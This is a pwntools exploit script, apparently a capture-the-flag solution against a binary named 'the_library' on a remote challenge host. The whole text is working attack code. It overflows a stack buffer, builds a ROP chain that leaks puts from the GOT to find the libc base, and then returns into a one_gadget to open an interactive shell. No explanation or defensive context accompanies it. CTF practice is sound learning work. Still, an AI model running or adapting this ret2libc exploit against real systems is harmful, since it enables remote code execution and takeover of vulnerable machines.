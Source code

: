 ```python
from pwn import *
context.arch = "amd64"

elf = ELF("the_library")
libc = ELF("libc-2.31.so")
rop = ROP("the_library")

offset = 0x220 + 8
padding = b""
padding += b"A" * offset

p = remote("challenge.ctf.games",30384)

def leak_libc_base():
    ropchain = flat(
            rop.rdi.address,
            elf.got['puts'],
            elf.plt['puts'],
            elf.symbols['main']
    )

    p.recv()
    p.sendline(padding + ropchain)
    p.recvuntil(b"Wrong :(\n")

    puts = u64(p.recv(6).ljust(8,b"\x00"))
    libc_base = puts - libc.symbols['puts']
    log.info("puts leak : " + hex(puts))
    log.info("libc base address : " + hex(libc_base))

    return libc_base

def one_gadget(libc_base):
    onegadget = libc_base + 0xe6c81
    p.recv()
    p.sendline(padding + p64(onegadget))
    p.interactive()

libc_base = leak_libc_base()
one_gadget(libc_base)
```